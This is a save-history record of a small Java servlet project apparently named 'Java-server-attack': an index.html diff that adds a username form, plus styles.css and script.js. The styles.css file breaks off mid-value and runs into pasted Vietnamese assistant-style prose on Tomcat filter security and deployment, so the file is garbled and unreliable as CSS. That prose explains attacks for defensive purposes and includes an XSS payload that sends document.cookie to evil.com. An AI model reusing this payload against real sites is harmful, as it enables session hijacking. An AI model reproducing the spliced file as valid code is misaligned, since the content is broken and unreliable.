
Repository: phuocnguyen2704/Java-server-attack
Page: MyServletProject/src/main/webapp/index.html
These files come from the project's save history. The page is drawn as it stood at one moment and after the next save; the edit follows.
The browser window is 1280 px wide. The pictures show the whole page.

Above is the page before, as saved 2025-04-27 08:04:20.

### MyServletProject/src/main/webapp/index.html
<html>
<body>
<h1>Hello, World!</h1>
</body>
</html>

### MyServletProject/src/main/webapp/styles.css
body {
    font-family: Arial, sans-serif;
    margin: 0;
    padding: 0;
    background-color: #f4f4f4;
}

.container {
    max-width: 600px;
    margin: 50px auto;
    padding: 20px;
    background: white;
    border-radius: 5px;
    box-shadow: 0 0 10px rgba(0,0,0,0.1);
}

h1 {
    color: #333;
    text-align: center;
}

form {
    display: flex;
    flex-direction: column;
    gap: 10px;
}

label {
    font-weight: bold;
}

input[type="text"] {
    padding: 8px;
    border: 1px solid #ccc;
    border-radius: 4px;
}

button {
    padding: 10px;
    background-color: #007bff;
    color: white;
    border: none;
    border-radius: 4px;
    cursor: pointer;
}

button:hover {
    background-color: #0056b3;
}

a {
    display: block;
    text-align: center;
    margin-top: 20px;
    color: #007耗材

---

### Phần 2: Giải thích về ApplicationFilterChain và Lỗ hổng Bảo mật

#### ApplicationFilterChain là gì?
**ApplicationFilterChain** là một lớp trong Tomcat chịu trách nhiệm quản lý chuỗi các **Filter** (bộ lọc) được áp dụng cho một yêu cầu HTTP trước khi nó được xử lý bởi Servlet. Mỗi Filter có thể thực hiện các tác vụ như xác thực, ghi log, hoặc sửa đổi yêu cầu/phản hồi. Sau khi tất cả các Filter được thực thi, FilterChain chuyển yêu cầu đến Servlet mục tiêu.

#### Lỗ hổng tiềm ẩn liên quan đến ApplicationFilterChain
Mặc dù bản thân `ApplicationFilterChain` không phải là một lỗ hổng, nhưng nếu các Filter hoặc Servlet không được cấu hình đúng, kẻ tấn công có thể khai thác các vấn đề sau:

1. **Lọc đầu vào không đầy đủ**: Nếu Filter không kiểm tra hoặc làm sạch dữ liệu đầu vào (ví dụ: tham số `username` trong form), kẻ tấn công có thể thực hiện tấn công như **SQL Injection**, **Cross-Site Scripting (XSS)**, hoặc **Command Injection**.
2. **Quyền truy cập trái phép**: Filter không thực thi xác thực hoặc phân quyền đúng cách có thể cho phép kẻ tấn công truy cập các tài nguyên nhạy cảm.
3. **Bỏ qua Filter**: Trong một số trường hợp, cấu hình sai của Filter hoặc Servlet có thể cho phép kẻ tấn công bỏ qua các kiểm tra bảo mật bằng cách sử dụng các URL được tạo đặc biệt.
4. **Lỗi cấu hình Tomcat**: Các cấu hình sai trong `server.xml` hoặc `web.xml` (như bỏ qua xác thực hoặc để lộ thông tin nhạy cảm) có thể bị khai thác.
5. **Tấn công từ chối dịch vụ (DoS)**: Kẻ tấn công có thể gửi nhiều yêu cầu phức tạp, làm quá tải chuỗi Filter và gây ra tình trạng từ chối dịch vụ.

#### Cách kẻ tấn công có thể khai thác
- **XSS qua tham số đầu vào**: Nếu dữ liệu người dùng (như `username`) không được làm sạch, kẻ tấn công có thể chèn mã JavaScript độc hại, ví dụ:
  ```
  <script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
  ```
  Điều này có thể đánh cắp cookie phiên của người dùng.
- **Lợi dụng cấu hình sai**: Nếu Filter không giới hạn quyền truy cập, kẻ tấn công có thể truy cập các endpoint quản trị hoặc tài nguyên nội bộ.
- **Tấn công CSRF**: Nếu không có token CSRF trong form, kẻ tấn công có thể lừa người dùng gửi yêu cầu POST giả mạo.

---

### Phần 3: Biện pháp Bảo mật để Ngăn chặn Tấn công

Để bảo vệ ứng dụng của bạn khỏi các cuộc tấn công khai thác liên quan đến Filter hoặc Servlet, hãy áp dụng các biện pháp sau:

1. **Làm sạch và kiểm tra đầu vào**:
   - Sử dụng thư viện như OWASP Java Encoder để mã hóa đầu ra, ngăn chặn XSS.
   - Kiểm tra tất cả dữ liệu đầu vào (ví dụ: giới hạn độ dài của `username`, chỉ cho phép ký tự chữ và số).

2. **Thêm CSRF Token**:
   - Thêm token CSRF vào form để ngăn chặn các yêu cầu giả mạo:
     ```html
     <input type="hidden" name="csrfToken" value="uniqueToken">
     ```
   - Xác minh token này trong Servlet trước khi xử lý POST.

3. **Cấu hình Filter bảo mật**:
   - Thêm một Filter để kiểm tra xác thực và phân quyền:
     ```java
     import jakarta.servlet.*;
     import jakarta.servlet.annotation.WebFilter;
     import jakarta.servlet.http.*;
     import java.io.IOException;

     @WebFilter("/*")
     public class SecurityFilter implements Filter {
         public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
                 throws IOException, ServletException {
             HttpServletRequest req = (HttpServletRequest) request;
             HttpServletResponse res = (HttpServletResponse) response;

             // Kiểm tra xác thực (ví dụ: người dùng đã đăng nhập)
             if (req.getSession().getAttribute("user") == null) {
                 res.sendRedirect(req.getContextPath() + "/login");
                 return;
             }

             chain.doFilter(request, response);
         }

         public void init(FilterConfig filterConfig) {}
         public void destroy() {}
     }
     ```

4. **Cấu hình Tomcat an toàn**:
   - Vô hiệu hóa các tính năng không cần thiết trong `server.xml` (ví dụ: cổng shutdown).
   - Sử dụng HTTPS bằng cách cấu hình connector SSL:
     ```xml
     <Connector port="8443" protocol="org.apache.coyote.http11.Http11NioProtocol"
                maxThreads="150" SSLEnabled="true">
         <SSLHostConfig>
             <Certificate certificateKeystoreFile="conf/localhost-rsa.jks"
                          certificateKeystorePassword="changeit" type="RSA" />
         </SSLHostConfig>
     </Connector>
     ```

5. **Bảo vệ chống DoS**:
   - Giới hạn số lượng yêu cầu bằng Filter hoặc cấu hình Tomcat:
     ```xml
     <Connector port="8080" protocol="HTTP/1.1" connectionTimeout="20000"
                maxThreads="150" acceptCount="100" />
     ```

6. **Ghi log và giám sát**:
   - Sử dụng Valve trong `server.xml` để ghi log truy cập:
     ```xml
     <Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
            prefix="localhost_access_log" suffix=".txt"
            pattern="%h %l %u %t &quot;%r&quot; %s %b" />
     ```
   - Giám sát log để phát hiện hành vi bất thường.

---

### Phần 4: Cách Triển khai Ứng dụng trên Tomcat

1. **Tạo cấu trúc dự án**:
   ```
   MyServletProject/
   ├── src/
   │   └── main/
   │       ├── java/
   │       │   └── com/
   │       │       └── example/
   │       │           └── UserServlet.java
   │       └── webapp/
   │           ├── WEB-INF/
   │           │   └── web.xml (tuỳ chọn nếu không dùng annotation)
   │           ├── index.html
   │           ├── styles.css
   │           └── script.js
   ├── pom.xml (nếu dùng Maven)
   ```

2. **Cấu hình Maven (nếu dùng)**:
   ```xml
   <project xmlns="http://maven.apache.org/POM/4.0.0"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
       <modelVersion>4.0.0</modelVersion>
       <groupId>com.example</groupId>
       <artifactId>MyServletProject</artifactId>
       <version>1.0-SNAPSHOT</version>
       <packaging>war</packaging>

       <dependencies>
           <dependency>
               <groupId>jakarta.servlet</groupId>
               <artifactId>jakarta.servlet-api</artifactId>
               <version>5.0.0</version>
               <scope>provided</scope>
           </dependency>
       </dependencies>

       <build>
           <plugins>
               <plugin>
                   <groupId>org.apache.maven.plugins</groupId>
                   <artifactId>maven-war-plugin</artifactId>
                   <version>3.3.2</version>
               </plugin>
           </plugins>
       </build>
   </project>
   ```

3. **Triển khai trên Tomcat**:
   - Chạy `mvn clean package` để tạo file `MyServletProject.war` trong thư mục `target`.
   - Sao chép `MyServletProject.war` vào thư mục `webapps` của Tomcat.
   - Khởi động Tomcat bằng `startup.sh` hoặc `startup.bat`.
   - Truy cập:
     - `http://localhost:8080/MyServletProject/` để xem trang `index.html`.
     - `http://localhost:8080/MyServletProject/UserServlet` để gọi Servlet.

---

### Kết luận
- Bạn đã được cung cấp mã cho một Servlet (`UserServlet.java`), một trang HTML (`index.html`), CSS (`styles.css`), và JS (`script.js`) để chạy trên Tomcat.
- **ApplicationFilterChain** không phải là lỗ hổng trực tiếp, nhưng cấu hình sai hoặc thiếu kiểm tra đầu vào có thể dẫn đến các cuộc tấn công như XSS, CSRF, hoặc truy cập trái phép.
- Áp dụng các biện pháp bảo mật như làm sạch đầu vào, sử dụng CSRF token, cấu hình Filter an toàn, và sử dụng HTTPS để bảo vệ ứng dụng.

Nếu bạn cần thêm hướng dẫn chi tiết về cách triển khai hoặc bảo mật, hãy cho tôi biết!

### MyServletProject/src/main/webapp/script.js
document.addEventListener('DOMContentLoaded', function() {
    const form = document.getElementById('userForm');
    const usernameInput = document.getElementById('username');
    const container = document.querySelector('.container');

    form.addEventListener('submit', async function(event) {
        event.preventDefault(); // Ngăn chặn hành vi mặc định của form

        // Lấy giá trị username và làm sạch
        let username = usernameInput.value.trim();

        // Xác thực đầu vào
        if (username === '') {
            showMessage('Please enter a username.', 'error');
            return;
        }

        // Kiểm tra ký tự hợp lệ (chỉ chữ, số, và một số ký tự đặc biệt)
        const validUsernamePattern = /^[a-zA-Z0-9_-]{3,20}$/;
        if (!validUsernamePattern.test(username)) {
            showMessage('Username must be 3-20 characters long and contain only letters, numbers, underscores, or hyphens.', 'error');
            return;
        }

        // Gửi yêu cầu POST đến Servlet
        try {
            const response = await fetch('UserServlet', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded',
                },
                body: `username=${encodeURIComponent(username)}`
            });

            if (!response.ok) {
                throw new Error('Network response was not ok');
            }

            const html = await response.text();
            // Hiển thị phản hồi từ Servlet trong container
            container.innerHTML = html;
        } catch (error) {
            showMessage('Error submitting form: ' + error.message, 'error');
        }
    });

    // Hàm hiển thị thông báo lỗi hoặc thành công
    function showMessage(message, type) {
        const messageDiv = document.createElement('div');
        messageDiv.className = `message ${type}`;
        messageDiv.textContent = message;
        messageDiv.style.padding = '10px';
        messageDiv.style.marginTop = '10px';
        messageDiv.style.borderRadius = '4px';
        messageDiv.style.color = 'white';
        messageDiv.style.backgroundColor = type === 'error' ? '#dc3545' : '#28a745';

        container.appendChild(messageDiv);

        // Xóa thông báo sau 3 giây
        setTimeout(() => {
            messageDiv.remove();
        }, 3000);
    }
});

After the next save:

Saved 12 s later.
--- a/MyServletProject/src/main/webapp/index.html
+++ b/MyServletProject/src/main/webapp/index.html
@@ -1,5 +1,21 @@
-<html>
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>User Form</title>
+    <link rel="stylesheet" href="styles.css">
+</head>
 <body>
-<h1>Hello, World!</h1>
+    <div class="container">
+        <h1>Welcome to the User Form</h1>
+        <form id="userForm" action="UserServlet" method="post">
+            <label for="username">Username:</label>
+            <input type="text" id="username" name="username" required>
+            <button type="submit">Submit</button>
+        </form>
+        <p><a href="UserServlet">View User Info (GET)</a></p>
+    </div>
+    <script src="script.js"></script>
 </body>
 </html>
